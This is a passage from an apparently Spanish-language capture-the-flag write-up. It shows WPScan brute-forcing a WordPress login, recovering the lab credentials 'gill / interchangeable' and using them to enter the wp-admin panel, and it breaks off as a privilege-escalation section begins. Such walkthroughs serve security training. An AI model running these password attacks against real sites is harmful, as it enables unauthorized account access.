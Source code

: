 ```

[+] Performing password attack on Wp Login against 5 user/s
[SUCCESS] - gill / interchangeable
^Cying gadd / pricey Time: 00:04:06 <=====================================                                              > (3777 / 8259) 45.73%  ETA: 00:04:53
[!] Valid Combinations Found:
 | Username: gill, Password: interchangeable

[!] No WPScan API Token given, as a result vulnerability data has not been output.                                      > (3783 / 8259) 45.80%  ETA: 00:04:52
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Mon May 26 03:26:06 2025
[+] Requests Done: 3924
[+] Cached Requests: 43
[+] Data Sent: 1.316 MB
[+] Data Received: 20.204 MB
[+] Memory used: 320.461 MB
[+] Elapsed time: 00:04:09

Scan Aborted: Canceled by User
```

Vemos que encontro una credenciales validas despues de un rato.

```
[SUCCESS] - gill / interchangeable
```

Vamos a probarlas llendonos al panel de administrador del `wordpress` de la siguiente forma.

```
URL = http://<IP>/wp-admin
```

Una vez que nos loguemos veremos que estaremos dentro, vamos a buscar un poco la forma de acceder a dicha maquina o algo por el estilo.

## Escalate user gill

Si nos vamos a `Media` -> `Library` veremos una imagen que no aparece en la pagina de `wordpress` que seria esta de aqui.

<figure><img src="../../.gitbook/assets/image (384).png" alt=""><figcaption></figcaption></figure>

